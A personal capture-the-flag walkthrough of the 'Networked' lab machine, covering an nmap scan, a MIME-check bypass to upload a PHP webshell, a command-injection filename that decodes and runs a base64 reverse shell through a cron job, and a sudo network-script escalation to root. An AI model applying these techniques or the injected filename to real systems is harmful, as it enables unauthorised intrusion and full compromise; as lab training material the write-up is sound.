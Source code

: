 Target IP: `10.10.10.146`
Source IP: `10.10.14.24`

# NMAP

```
└─$ nmap -sS 10.10.10.146 -p22,80,443
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 20:14 EDT
Nmap scan report for 10.10.10.146
Host is up (0.031s latency).

PORT    STATE  SERVICE
22/tcp  open   ssh
80/tcp  open   http
443/tcp closed https

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds
```

```
─$ nmap -sC -sV 10.10.10.146 -p22,80,443 -oA Networked
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 20:15 EDT
Nmap scan report for 10.10.10.146
Host is up (0.031s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```


# Port 80

found an index page with some blurb about facemash
Not much going on here

Ran dirb with big.txt and found that a backup path exists

This gave a tar file with contents of the site.

Reading the code for upload and the lib - found that if I can bypass the MIME check ([[image-file-reparing]] using magic bytes) then I have arbitrary file upload for a webshell

file name needs to end in .php.png for it to actually be executed though

Uploaded PentestMonkey PHP shell with first bytes being the PNG magic bytes

Got shell as apache

# Shell as Guly

Found that there are some files globally readable

```
[guly@networked ~]$ ls -la
ls -la
total 36
drwxr-xr-x. 3 guly guly 4096 Mar 12 03:34 .
drwxr-xr-x. 3 root root   18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root    9 Sep  7  2022 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly   18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly  193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly  231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-rw-------  1 guly guly 4680 Mar 12 04:05 dead.letter
drwx------  2 guly guly   60 Mar 12 03:34 .gnupg
-r--------. 1 guly guly   33 Mar 12 01:01 user.txt
```

reading crontab tells me that check_attack.php is running every 3 minutes. This script runs nohup with a variable that's just the filename (which we can now write arbitrary files with arbitrary file names in the upload folder). This happens as it's supposed to detect files that don't have _ delimited IP addresses as file name.

```
touch 'a.png; echo <BASE64SHELL> | base64 -d | sh'
```

The above creates a file with a nice name for rev-shell and works

# Guly to root

Guly has sudo permission to run a script that sets up a new network interface and runs ifup on it, as root with no password. Looking up online, write to an interface allows some code to be executed as root when the interface is pulled up.

[source](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

```
Yes, any script in that folder is executed by root because of the sourcing technique. Ex: . 
/etc/sysconfig/network-scripts/ifcfg-1337
```

This allows running /bin/bash as root due to the script running as root via sudo

==DONE==